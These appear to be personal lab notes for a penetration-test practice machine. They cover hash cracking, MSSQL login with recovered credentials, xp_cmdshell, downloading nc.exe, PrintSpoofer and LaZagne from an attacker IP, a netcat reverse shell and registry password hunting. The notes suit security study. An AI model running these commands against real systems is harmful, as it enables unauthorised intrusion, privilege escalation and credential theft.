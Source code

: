 ### FTP
```
cat palindromes.txt | sed -e 's/\"//g' -e 's/, /\n/g'
```

no luck above just crack it then.

```
hashcat -m 13000 --force -a 0 rar.hash /usr/share/wordlists/rockyou.txt
```

letmeinplease

### Extract the rar file then
sa
EjectFrailtyThorn425

### Ports scan since autorecon failed
```
docker run -it --rm --name rustscan rustscan/rustscan:1.10.0 192.168.243.70
```

PORT     STATE SERVICE        REASON
80/tcp   open  http           syn-ack
135/tcp  open  msrpc          syn-ack
139/tcp  open  netbios-ssn    syn-ack
445/tcp  open  microsoft-ds   syn-ack
1221/tcp open  sweetware-apps syn-ack
1435/tcp open  ibm-cics       syn-ack <- mssql
3389/tcp open  ms-wbt-server  syn-ack
5985/tcp open  wsman          syn-ack

### Mysql it
```
mysql -u sa -p'EjectFrailtyThorn425' -h $IP -P 1435
```

for u in $(cat names.txt); do mysql -u $u -p'EjectFrailtyThorn425' -h $IP -P 1435; done

for u in $(cat names.txt); do smbmap -u $u -p 'EjectFrailtyThorn425' -H $IP; done

crackmapexec smb $IP -u names.txt -p EjectFrailtyThorn425

crackmapexec winrm $IP -u names.txt -p EjectFrailtyThorn425

### Brute force it as mysql failed to conncect
```
crackmapexec winrm $IP -d Meathead -u -p EjectFrailtyThorn425
```

### ...LOL... Actually MSSQL
##### sqsh is working too.
❯ sqsh -S $IP:1435 -U sa -P EjectFrailtyThorn425
sqsh-2.5.16.1 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2014 Michael Peppler and Martin Wesdorp
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'
1> 

##### BUT mssqlclient is better!
```bash
❯ /usr/bin/impacket-mssqlclient sa@$IP -port 1435 -windows-auth
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[-] ERROR(MEATHEAD\SQLEXPRESS): Line 1: Login failed. The login is from an untrusted domain and cannot be used with Integrated authentication.
                                                                                                                                                                                            
❯ /usr/bin/impacket-mssqlclient sa@$IP -port 1435
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(MEATHEAD\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(MEATHEAD\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> enable_xp_cmdshell
```

certutil failed. should go with iwr or smbserver
```
SQL> xp_cmdshell certutil -urlcache -f http://192.168.49.243/nc.exe c:\users\Public\nc.exe
[-] ERROR(MEATHEAD\SQLEXPRESS): Line 1: An error occurred during the execution of xp_cmdshell. A call to 'CreateProcess' failed with error code: '5'.
```

### Get foothold and root
```
xp_cmdshell c:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe Invoke-WebRequest "http://192.168.49.243/nc.exe" -OutFile "C:\Users\Public\Downloads\alvin.exe"

xp_cmdshell c:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe Invoke-WebRequest "http://192.168.49.243/PrintSpoofer64.exe" -OutFile "C:\Users\Public\Downloads\PrintSpoofer64.exe"

xp_cmdshell C:\Users\Public\Downloads\PrintSpoofer64.exe -c "C:\Users\Public\Downloads\alvin.exe 192.168.49.243 1435 -e cmd"
```

### Intened ways
##### Jane -> Admin
```
xp_cmdshell C:\Users\Public\Downloads\alvin.exe -e cmd 192.168.49.243 80
```

certutil -urlcache -f http://192.168.49.243:8080/lazagne.exe C:\Users\Public\lazagne.exe
certutil -urlcache -f http://192.168.49.243:8080/lazagne.exe C:\Users\Public\Downloads\lazagne.exe

nope, and IEX is for string. So go with IWR

```
powershell IEX(New-Object Net.WebClient).DownloadString('http://192.168.49.243:8080/lazagne.exe');
powershell IEX(New-Object Net.WebClient).DownloadString('http://192.168.49.243:5985/lazagne.exe');
```

```
powershell IWR http://192.168.49.243:5985/lazagne.exe -OutFile alvinLZG.exe <- Defender deleted it, so does some payloads generated by msf

C:\Users\Public\Downloads\lazagne.exe
```

##### Try SessionGopher
powershell IWR http://192.168.49.243:5985/SessionGopher.ps1 -OutFile alvin.ps1
But nothing
```
PS C:\Users\Public\Downloads> Import-Module .\alvin.ps1
Import-Module .\alvin.ps1
PS C:\Users\Public\Downloads> Invoke-SessionGopher -Target Meathead
Invoke-SessionGopher -Target Meathead

          o_       
         /  ".   SessionGopher
       ,"  _-"      
     ,"   m m         
  ..+     )      Brandon Arvanaghi
     `m..m       Twitter: @arvanaghi | arvanaghi.com
  
[+] Digging on Meathead...
PS C:\Users\Public\Downloads> dir
```

##### Either winpeas or mannaully to get credentials
search the registry fo key names and passwords
```
reg query HKLM /f pass /t REG_SZ /s
```

HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control
    CurrentPass    REG_SZ    TwilightAirmailMuck234


### 3389 to Jane
Verify the version of Plantronics and exploit it with 47845

View -> Details -> check the box 'Hidden items'

jane|advertise|C:\Windows\System32\cmd.exe